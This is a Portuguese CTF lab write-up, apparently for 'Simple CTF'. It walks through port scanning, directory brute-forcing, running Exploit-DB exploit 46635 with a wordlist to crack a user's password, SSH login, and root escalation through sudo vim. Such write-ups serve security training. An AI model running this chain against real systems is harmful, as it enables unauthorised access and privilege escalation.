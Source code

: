 # Simple CTF

* ### Scan de portas - Verificando quais portas estão abertas.

```bash
rustscan -a 10.10.133.241
```
![image](https://github.com/lufffe/Writeups/assets/90646635/dbb9a7c6-610d-4bab-bc9b-2c9b6a438319)

![image](https://github.com/lufffe/Writeups/assets/90646635/4a77208c-56bf-4d6b-8f98-ce1647a60ba8)

* ### Verificando o que está rodando nas portas encontradas.
```bash
nmap -A -p 21,80,2222 10.10.133.241
```
![image](https://github.com/lufffe/Writeups/assets/90646635/822eed72-15ad-4392-bc7b-e8d35332826c)

* ### Scan Arquivos e diretorios.
```bash
gobuster dir -u http://10.10.133.241 -w directory-list-2.3-small.txt -t 100 --no-error
```
![image](https://github.com/lufffe/Writeups/assets/90646635/8b22f507-78c9-4294-9d3d-4f518cfb0eb8)

* ### Vendo o que está sendo executado no http e então procurar um exploit que consiga fazer algo nessa aplicação.
![image](https://github.com/lufffe/Writeups/assets/90646635/29e3f5ef-ce2d-4053-8c92-8f67f92802b2)

* ### Exploit.
  
* https://www.exploit-db.com/exploits/46635
 
![image](https://github.com/lufffe/Writeups/assets/90646635/267a575d-19cf-4526-986b-4dca16f48013)


```bash
python3 46635.py
```
![image](https://github.com/lufffe/Writeups/assets/90646635/99925b1b-02c0-45e0-bb26-bd737894eeae)


```bash
python3 46635.py -u http://10.10.133.241/simple/ --crack -w ~/rockyou.txt
```
![image](https://github.com/lufffe/Writeups/assets/90646635/e51adcdd-fbc0-4cef-9708-706be03cd882)

mitch / #######

* ### Acessando via ssh com a credencial encontrada.
```bash
ssh mitch@10.10.133.241 -p 2222
```
![image](https://github.com/lufffe/Writeups/assets/90646635/cb4ee76c-c824-41a2-bd1d-3d8c7a52d126)

* ### Flag User + outro usuário no diretorio /home.
![image](https://github.com/lufffe/Writeups/assets/90646635/282e29a8-fa57-44c1-98ef-d4b2dc27e8d4)

```bash
sudo -l
```
![image](https://github.com/lufffe/Writeups/assets/90646635/b67e2218-9b2c-48c2-a163-22ae9fedbc3f)

* ### Flag Root.
```bash
$ sudo /usr/bin/vim /root/root.txt
```
